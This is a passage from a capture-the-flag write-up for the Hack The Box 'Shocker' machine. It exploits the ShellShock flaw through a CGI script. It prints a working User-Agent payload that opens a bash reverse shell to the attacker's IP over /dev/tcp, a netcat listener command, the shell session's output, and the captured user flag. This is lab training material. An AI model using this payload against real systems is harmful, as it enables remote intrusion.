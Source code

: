 We notice we have user.sh at /cgi-bin/user.sh .
User.sh can be downloaded and does not presents with anything valuable.

### Exploit

As per machine name suggesting ShellShock vulnerability, we search for exploitation of vulerability and understand how it works [ShellShock Vulnerability](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/)

Intercepting the request through Burp, below is the request and response in Burpsuite.

![BurpSuite Intercepted Request](/images/htb-shellshock-burpsuite1.png)

Let us exploit the shellshock Vulnerability , add the below in place of user-agent string and stup a Netcat Listner
Replace the IP and Port as per your own VPN IP, which you can get by - ifconfig tun0 . I have selected port 7777 for now.


```
() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.15/7777 0>&1
```

```bash
nc -nlvp 7777
```

![HTB Shocker ShellShock Vulnerability](/images/htb-shocker-shellshock.png)

If the above worked, burp will not give any response and we can see instead a shell on our netcat listner.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 7777   
listening on [any] 7777 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.56] 54106
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ 
```

Let us get the user flag.

```bash
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
0504191b6587b318d2f8a84987acdf6b
shelly@Shocker:/usr/lib/cgi-bin$ 
```
